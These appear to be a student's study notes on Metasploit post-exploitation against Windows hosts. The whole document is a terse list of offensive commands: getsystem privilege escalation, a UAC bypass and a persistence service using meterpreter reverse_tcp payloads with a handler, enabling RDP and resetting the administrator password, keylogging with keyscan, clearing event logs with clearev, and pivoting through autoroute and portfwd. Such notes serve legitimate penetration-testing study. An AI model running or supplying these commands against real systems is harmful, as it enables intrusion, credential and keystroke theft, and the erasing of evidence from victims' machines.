 ###### Post Exploitation Fundamentals
- checksum md5 /bin/bash -- to give md5 hash
- search /  -f * flag * 
- `use post/multi/manage/shell_to_meterpreter` -- to shell to c OR
	- sessions -u (session id)

###### Windows Post Exploitation
- Windows Post Exploitations Modules
	- `getsystem` -- will give us the elevated priv
	- show_mount -- will show drive mount details
	- `post/windows/manage/archmigrate` -- will migrate or change the architecture of meterpreter session
	- `post/windows/gather/win_priv` -- to gather privileges enumeration 
	- `post/windows/gather/enum_logged_on_users`
	- `post/windows/gather/checkvm` -- check if server is VM or not and also give host of VM
	- `post/windows/gather/enum_applications` -- will show us what programs are installed on target system
	- `post/windows/gather/enum_av_excluded`
	- `post/windows/gather/enum_computers` -- find info about system in the domain
	- `post/windows/gather/enum_patches` -- enum all the applied patches 
	- `post/windows/gather/enum_shares`
- Bypassing UAC 
	- `net users` -- run on shell and will give list of all accounts
	- `explot/windows/local/bypassuac_injection`
		- `set TARGET windows\ x64`
		- `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
- Establishing Persistence On Windows
	- Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
	- `exploit/windows/local/persistance_service`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set session [id]`
	- After losing the connection (killing the session)
		- `exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp` --  same as previous
		- `set LHOST [your ip]` -- same as previous
-  Enabling RDP
	- `exploit/windows/mange/enable_rdp`
	- after enabling rdp confirm it via `nmap -p3389 [ip]`
	- use shell in meterpreter session
	- `net user administrator [new password]` -- to change the administrator password
	-  `xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[IP:PORT]
- Windows Keylogging
	- `keyscan_start` -- start the key logging (it is meterpreter cmd)
	- `keyscan_dump` - it will dump the keystroke
- Clearing Windows Event Logs
	- you need elevated priv in order to clear event logs
	- `clearev` -- will clear the logs (it is meterpreter cmd)
- Pivoting
	- ![[Pivoting Visualized.png]]
	- once we have access to victim 1 add it's route to meterpreter by `run autoroute -s 10.10.10.0/24`
	- we cannot scan nmap on victim 2 directly (only within msfconsole), we need to set up port forwarding. Port forwarding essentially allows us to afford the remote port 80 to our local port 1234 
		- `portfwd add -l 1234 -p 80 -r 10.10.10.3` -- it is meterpreter cmd
		- Do not close the msfconsole
		- `nmap -sV -sS -p 1234 localhost`
		- when trying to use exploit use `set PAYLOAD windows/meterpreter/bind_tcp`
